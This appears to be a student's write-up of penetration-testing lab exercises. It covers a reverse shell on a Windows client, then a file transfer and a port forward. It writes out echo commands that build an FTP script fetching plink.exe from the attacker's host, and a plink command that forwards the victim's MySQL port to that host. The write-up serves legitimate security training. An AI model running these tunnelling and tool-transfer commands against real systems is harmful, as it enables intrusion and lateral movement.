




### 20.3.1.1 Exercises

#### 1. Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability.

Used the exploit we developed in lesson 11




#### 2. Use plink.exe to establish a remote port forward to the MySQL service on your Windows 10 client.

1. Downloaded plink.exe version 0.70 on Kali since the version that came with Kali threw errors about algorithm negotiation and the latest version 0.74 didn't work through the reverse shell.  I also allowed ftp through the WIndows 10 firewall, because it blocks ftp transfers, then transferred it to Windows 10 via FTP:

   ```powershell
   echo open 192.168.119.216 21> ftp.txt
   echo USER offsec>> ftp.txt
echo lab>> ftp.txt
   echo bin >> ftp.txt
   echo GET plink.exe >> ftp.txt
   echo bye >> ftp.txt
   ```
   
   
   
2. Ran plink.exe through reverse shell:

   ```powershell
   cmd.exe /c echo y | plink.exe -ssh -sshlog plink.txt -l coyote -pw coyote -R 192.168.119.216:1234:127.0.0.1:3306 192.168.119.216
   ```

   
   

#### 3. Scan the MySQL port via the remote port forward.  

I had to start MySQL in XAMPP first, but even then the scan was not picking it up.  I had to stop MySQL and restart my plink connection, then rescan before it picked it up.

